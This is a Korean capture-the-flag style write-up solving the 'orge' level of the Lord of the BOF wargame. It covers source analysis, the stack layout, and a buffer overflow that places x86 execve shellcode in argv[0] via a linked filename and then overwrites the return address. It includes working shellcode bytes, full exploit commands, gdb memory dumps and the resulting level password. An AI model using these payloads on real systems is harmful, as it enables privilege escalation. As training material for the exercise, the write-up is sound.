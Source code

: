 ============================================================================================================
[lob] orge
============================================================================================================

.. uml::
	
	@startuml

	start

	:Source Analysis;

	:Memory Structure;

	:argv[0]을 통한 우회;
	
	:Segmentation fault;

	:argv[0]에 쉘코드 삽입;

	:RET 주소를 argv[0] 주소로 변경하여 공격 진행;
	
	stop

	@enduml

|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

	/*
		The Lord of the BOF : The Fellowship of the BOF
		- troll
		- check argc + argv hunter
	*/

	#include <stdio.h>
	#include <stdlib.h>

	extern char **environ;

	main(int argc, char *argv[])
	{
		char buffer[40];
		int i;

		// here is changed
		if(argc != 2){
			printf("argc must be two!\n");
			exit(0);
		}

		// egghunter
		for(i=0; environ[i]; i++)
			memset(environ[i], 0, strlen(environ[i]));

		if(argv[1][47] != '\xbf')
		{
			printf("stack is still your friend.\n");
			exit(0);
		}

		// check the length of argument
		if(strlen(argv[1]) > 48){
			printf("argument is too long!\n");
			exit(0);
		}

		strcpy(buffer, argv[1]);
		printf("%s\n", buffer);

		// buffer hunter
		memset(buffer, 0, 40);

		// one more!
		memset(argv[1], 0, strlen(argv[1]));
	}


|

Memory Structure
============================================================================================================


스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

	================
	LOW     
	----------------
	Buffer  (40byte) <- strcpy
	SFP     (4byte)
	RET     (4byte)
	argc    (4byte)
	argv    (4byte)
	----------------
	HIGH    
	================

|

argv[0]을 통한 우회 (argv[1] 초기화)
============================================================================================================

strcpy로 인해 입력한 값이 버퍼보다 클 경우 오버플로우가 발생됩니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

	$ ./troll `python -c 'print "a"*47'`

	stack is still your friend.

	$ ./troll `python -c 'print "a"*47+"\xbf"'`

	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
	Segmentation fault

argv[1]을 초기화 해버리기 때문에 argv[1]로 버퍼오버플로우를 진행할 수 없습니다.

argv[0]에 쉘코드를 삽입하고 RET 주소를 argv[0] 주소로 변경하여 공격해야 합니다.


|

exploit
============================================================================================================

argv[0]에 쉘코드 삽입
------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 \x2f 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않습니다.

\x2f가 없는 쉘코드로 파일명을 생성하도록 합니다.

.. code-block:: console
	
	$ ln troll `python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'`

	$ ls

	troll
	troll.c    
	????????????????????????????????????????????????????????????????????????????????????????????????????▒▒▒t$▒?▒i▒])ɱ?1E??E??▒?▒▒b??|?G?▒Rp▒▒??8{▒?Q??▒▒??-▒ѶO?▒▒▒4@▒QM▒?▒

	$ ./`python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` a

	stack is still your friend.

앞의 조건에 argv[1]을 초기화하기 때문에, gdb를 이용하여 argv[0]이 가리키는 주소를 찾습니다.

.. code-block:: console

	(gdb) b *main
	Breakpoint 1 at 0x8048500

	(gdb) r `python -c 'print "a"*47+"\xbf"'`
	Starting program: /home/orge/▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒t$▒▒i▒])ɱ
							  1EE▒▒▒▒b▒▒|G▒▒Rp▒▒8{▒Q▒▒▒▒-▒ѶO▒▒▒▒4@▒QM▒▒▒ `python -c 'print "a"*47+"\xbf"'`
	/bin/bash: /home/goblin/.bashrc: Permission denied

	Breakpoint 1, 0x8048500 in main ()

	(gdb) stepi
	0x8048501 in main ()    

	(gdb) i reg $esp
	esp            0xbffff9a8       -1073743448

	(gdb) i reg $ebp
	ebp            0xbffff9c8       -1073743416

	(gdb) x/100x $esp

	==========================================================================
	0xbffff9a8:     0xbffff9c8      0x400309cb      0x00000002      0xbffff9f4
	0xbffff9b8:     0xbffffa00      0x40013868      0x00000002      0x08048450
	0xbffff9c8:     0x00000000      0x08048471      0x08048500      0x00000002
	0xbffff9d8:     0xbffff9f4      0x08048390      0x0804866c      0x4000ae60
	0xbffff9e8:     0xbffff9ec      0x40013e90      0x00000002      0xbffffae7
	0xbffff9f8:     0xbffffb9d      0x00000000      0xbffffbce      0xbffffbf0
	0xbffffa08:     0xbffffbfa      0xbffffc08      0xbffffc27      0xbffffc34
	0xbffffa18:     0xbffffc4d      0xbffffc69      0xbffffc88      0xbffffc93
	0xbffffa28:     0xbffffca1      0xbffffce3      0xbffffcf3      0xbffffd08
	0xbffffa38:     0xbffffd18      0xbffffd22      0xbffffd40      0xbffffd4b
	0xbffffa48:     0xbffffd5c      0xbffffd6b      0xbffffd7a      0xbffffd83
	0xbffffa58:     0x00000000      0x00000003      0x08048034      0x00000004
	0xbffffa68:     0x00000020      0x00000005      0x00000006      0x00000006
	0xbffffa78:     0x00001000      0x00000007      0x40000000      0x00000008
	0xbffffa88:     0x00000000      0x00000009      0x08048450      0x0000000b
	0xbffffa98:     0x000001fb      0x0000000c      0x000001fb      0x0000000d
	0xbffffaa8:     0x000001fb      0x0000000e      0x000001fb      0x00000010
	0xbffffab8:     0x0fabfbff      0x0000000f      0xbffffae2      0x00000000
	0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
	0xbffffad8:     0x00000000      0x00000000      0x36690000      0x2f003638
	0xbffffae8:     0x656d6f68      0x67726f2f      0x90902f65      0x90909090
	0xbffffaf8:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb08:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb18:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb28:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb38:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb48:     0x90909090      0x90909090      0x90909090      0xc5d99090
	0xbffffb58:     0xf42474d9      0x69c315b8      0xc9295dd7      0x45310bb1
	0xbffffb68:     0x1a45031a      0xe204c583      0x8f62a9e0      0x47137c93
	0xbffffb78:     0x7052e38e      0x1717ccb8      0x85f77b38      0xa98e1551
	0xbffffb88:     0x2d9801f3      0x4fb6d1f3      0xfce7bf9a      0x51af4034
	0xbffffb98:     0xd682a14d      0x61616100      0x61616161      0x61616161
                                          ^               ^               ^	
	0xbffffba8:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^               ^               ^
	0xbffffbb8:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^ argv[0] = 0xbffffbbf
	==========================================================================



RET 주소를 argv[0] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[0] address
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[0]의 주소로 변경하여 해당 쉘코드가 실행되도록 합니다. argv[0]의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있습니다.

filename : nop (100 byte) + shellcode (70 byte) 

argv[1] : nop (19 byte) + shellcode (25 byte) + argv[0] address



.. code-block:: console

	$ ./`python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xbf\xfb\xff\xbf"'`
	▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
										   ̀▒▒▒▒

	bash$ whoami
	troll
	bash$ my-pass
	euid = 508
	aspirin

